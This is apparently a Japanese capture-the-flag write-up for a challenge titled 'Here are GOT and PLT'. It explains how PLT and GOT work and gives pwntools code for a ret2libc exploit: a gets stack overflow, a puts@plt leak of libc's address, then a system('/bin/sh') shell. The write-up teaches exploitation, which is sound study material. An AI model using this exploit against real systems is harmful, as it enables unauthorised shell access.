





# Here are GOT and PLT


## 解説の概要

ASLR 有効下での ret2libc。
`puts@plt(puts@got)` にて libc リークを行い、`system("/bin/sh")` を起動する。
なお、使われてる libc を特定するために、本バイナリがダンプする `munmap@plt` と `open@plt` のアドレスを用いる。

別解として、`mmap@plt` を用いてシェルコードを使う方法でも解ける。


## 解説

### 脆弱性の特定



`vuln` 関数を見ると、`gets` 関数によりバッファより大きい入力をスタックに入れられることがわかる。


### 実行ファイルの解析

`checksec` コマンドを使用すると以下の出力がかえる。

- Arch:       i386-32-little      => 32 bit なので引数とかはスタックに入る
- RELRO:      Partial RELRO
- Stack:      No canary found     => スタック上のバッファからリターンアドレスまで一気に書き換えても問題無い
- NX:         NX enabled          => スタックにシェルコードをおいて実行などはできない
- PIE:        No PIE (0x8048000)  => このバイナリイメージがロードされるアドレスは毎回固定
- Stripped:   No

また、ASLR が有効な環境で本バイナリは動作しているので、ASLR有効+PIE無効だと以下のようになる

- 実行イメージのアドレス: 固定
- スタックやヒープのアドレス: 毎回変化

実行イメージは固定なのでガジェットや GOT/PLT が使いやすいという点から、ROP を用いる事にする。


### エクスプロイト

リターンアドレスまでのオフセットは以下の通りバッファ先頭から 17 バイト目とわかる。



目的はシェルを起動する事なので、`system("/bin/sh")` を実行するために libc にある `system` 関数のアドレスを求め、リターンアドレスの位置にこれをセットしたい。
しかし、ASLR が有効であり、libc は PIE が有効なため、ロードされるベースアドレスが実行ごとにランダムになっている。
故に、libc のベースアドレスをまずはリークさせたい。

libc リークのよくある手法として、GOT と PLT を用いる方法がある。
これは、例えば C のソースコードで `printf` 関数を使っていて、それをコンパイルした場合、printf 関数の実体は libc の中にあるが、そこのアドレス X に対し `call X` のようにアセンブリが構築されている訳ではない。
その実行バイナリの .plt セクション (PLT) には、その実行バイナリで使われる外部関数毎に数行のアセンブリ命令が用意されており、その命令があるアドレス Y に対し `call Y` のようにアセンブリが構築されている。
本バイナリでは、自分自身の .plt セクションをダンプしているが、これは `objdump -D -j .plt vuln` の linux コマンドを実行する事でより綺麗に表示することができる。



最初の関数は例外だが、他の関数はどれも最初 `jmp` 命令にてあるアドレスに格納されたアドレスに飛んでいる事がわかる。
また、よく見ると書かれているアドレスは関数同士で 4 バイト違いのアドレスになっている事がわかる。
この `jmp` 命令で参照されているアドレスは、GOT というテーブル上のアドレス (.got.plt に相当) で、この GOT に各関数の libc 上のアドレスが格納されている。

何故コンパイル時に libc のアドレスを直接指定しないのかと思うかもしれないが、その一つの理由として libc はそもそも PIE が有効なので実行毎にアドレスが変わるので、ハードコードできないからという点がある。
ハードコードできない故に、実行時にその関数を使うタイミングで libc 上のアドレスを解決している。しかし、毎回同じ関数を使う度にアドレス解決をするのはオーバーヘッドが大きいので、一回解決したら GOT に libc 上のアドレスを記録して、次回以降はそれを使うようになっている。

PLT を再度見ると、常に GOT のアドレスを参照するようになっているので、まだ GOT に libc のアドレスが無い場合どうなるかという点だが、GOT には最初、アドレス解決を行う命令列へのアドレスが格納されている。
そのアドレス解決の処理は、先ほどの .plt セクションの各関数の命令列にある `jmp` 命令の次の２つの命令に相当する。

まとめると以下のような感じである。



脱線したが、libc のベースアドレスを GOT/PLT を用いてリークするには、以下のステップを踏む。

1. libc 上の何らかの関数のアドレスを出力させる
    1. libc 上のアドレスは GOT にある
    1. これを `puts` とかを使って出力する
    1. `puts` の libc 上のアドレスはわからないが、その実行バイナリで `puts` が使われていれば PLT に `puts` を呼ぶアドレスがあるので、それをリターンアドレスにセットすれば実行できる
        1. ちなみに直接 `system` を呼ぶことができないのは、今回のバイナリでは `system` を使っていないので PLT にそのエントリが無いため
1. 手元の libc のバイナリで、ベースアドレスから `puts` までのオフセットを求めておき、それを先ほどリークした値から引けばベースアドレスが求められる
    1. ベースアドレスから各関数までのオフセットは、libc のバージョン等によるため、攻撃対象が何の libc を使っているのか知る必要がある
    1. これは、https://libc.rip/ などのサイトに、いくつかの関数の libc 上のアドレスを入れることで判別できる
        1. 幸い今回は `open@plt` と `munmap@plt` のアドレスが出力されているので、ダンプの GOT と PLT を参考にその libc 上のアドレスを入力すればいい

まず、攻撃対象の libc のバージョンを調べる。



２つ候補が出てくるが、どちらをダウンロードして使っても解ける。

続いて、`puts` 関数を用いて、`puts@plt(puts@got)` を実行させる事で libc リークを行う。
vulnバイナリではPIEが無効であるためPLTとGOTは毎回固定のアドレスとなり、手元の環境で起動するアドレスとターゲットマシン環境で起動している環境で同一のアドレスになるはずである。
故に、`elf = ELF("vuln")` でローカルにロードした `vuln` の GOT と PLT のアドレスを `elf.plt["puts"]` という形で使っている。
第一引数に `elf.got["puts"]` を入れ、リターンアドレスにて `elf.plt["puts"]` を指定して実行することで libc の `puts` のアドレスが出力される。
`elf.plt["puts"]` のリターン先として `vuln` を指定することでもう一度入力を受付させる。
リークができたら、先ほどダウンロードした libc を元に libc のベースアドレスを求める。

````py
    elf = ELF("vuln")
    libc = ELF("libc6_2.39-0ubuntu8.4_i386.so") # libc.rip を使って持ってくる

    ## ... 略 ...

    # 1: libc リーク
    payload  = b"" 
    payload += b"a" * 16
    print("puts@plt:",  hex(elf.plt["puts"]))
    print("puts@got:",  hex(elf.got["puts"]))
    print("vuln:",  hex(elf.symbols["vuln"]))
    payload += pack('<I', elf.plt["puts"])  # 最初のリターンアドレス
    payload += pack('<I', elf.symbols["vuln"])
    payload += pack('<I', elf.got["puts"])
    payload += b"\n"
    r.send(payload)

    r.recvuntil(b"\n") # Nice to meet you は飛ばす
    puts_addr = r.recvuntil(b"\n")
    puts_addr = u32(puts_addr[0:4])
    libc_base = puts_addr - libc.symbols["puts"] # elf.symbols はelfのベースが固定なので絶対アドレスだが、libc.symbolsはlibcがpieなのでオフセットになるので注意
    print("puts:", hex(puts_addr))
    print("libc:", hex(libc_base))
````

libc のベースアドレスを元に libc 内の system 関数のアドレスと `"/bin/sh"` という文字列のアドレスを求め、`system("/bin/sh")` を実行すれば終わりです。

````py
   # 2: リークした libc ベースを元に system と "/bin/sh" のアドレスを計算
    system_addr = libc_base + libc.symbols["system"]
    binsh_addr = libc_base + next(libc.search(b"/bin/sh"))
    print("system:", hex(system_addr))
    print("binsh:", hex(binsh_addr))

    # 3: シェル起動
    payload  = b""
    payload += b"a" * 16
    payload += pack('<I', system_addr)
    payload += pack('<I', elf.symbols["vuln"])
    payload += pack('<I', binsh_addr)
    payload += b"\n"
    r.send(payload)

    r.interactive()
````
